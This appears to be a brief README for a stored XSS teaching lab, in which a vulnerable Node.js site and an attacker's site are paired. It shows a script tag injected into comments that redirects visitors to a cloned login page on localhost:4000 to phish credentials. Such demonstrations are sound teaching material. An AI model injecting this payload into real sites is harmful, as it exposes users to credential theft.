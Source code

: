 This deals with stored XSS vulnerabilities. You will find a vulnerable Node.js website and an attacking website. The attacker logs in with their credentials (e.g., user1/password1) and injects the following script into the comments:
```bash
<script>
  window.location.href = 'http://localhost:4000/login';
</script>
```

which redirects users to a clone page of the hacker's site."
